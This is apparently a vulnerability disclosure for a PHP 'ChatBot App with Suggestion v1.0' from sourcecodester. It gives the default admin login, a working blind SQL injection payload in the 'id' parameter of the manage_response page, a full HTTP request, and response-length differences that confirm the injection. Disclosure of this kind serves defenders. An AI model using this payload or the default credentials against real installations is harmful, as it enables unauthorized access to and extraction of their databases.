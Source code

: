# ChatBot App with Suggestion v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15316/chatbot-app-suggestion-phpoop-free-source-code.html

Vulnerability File: /simple_chat_bot/admin/?page=responses/manage_response&id=

Vulnerability location: /simple_chat_bot/admin/?page=responses/manage_response&id=, id

[+] Payload: /simple_chat_bot/admin/?page=responses/manage_response&id=8%27%20and%20length(database())%20=11--+ // Leak place ---> id

Current database name: chat_bot_db,length is 11

```sql
GET /simple_chat_bot/admin/?page=responses/manage_response&id=8%27%20and%20length(database())%20=11--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=qq2e8htekg3g2rkgtbq38p0jnv
Connection: close
```

When length (database ()) = 10, Content-Length: 30013
![image](https://user-images.githubusercontent.com/54017627/170820272-de49c84d-652f-4464-9d89-00afbf6e688b.png)

![image](https://user-images.githubusercontent.com/54017627/170820284-672c5b8a-8494-4a71-8474-e84ab3784c6b.png)

When length (database ()) = 11, Content-Length: 30708
![image](https://user-images.githubusercontent.com/54017627/170820263-45797b59-cf1d-4afb-9478-5809a2872264.png)

![image](https://user-images.githubusercontent.com/54017627/170820276-a4e19596-3ecb-417c-a974-fd3df8e3efa1.png)
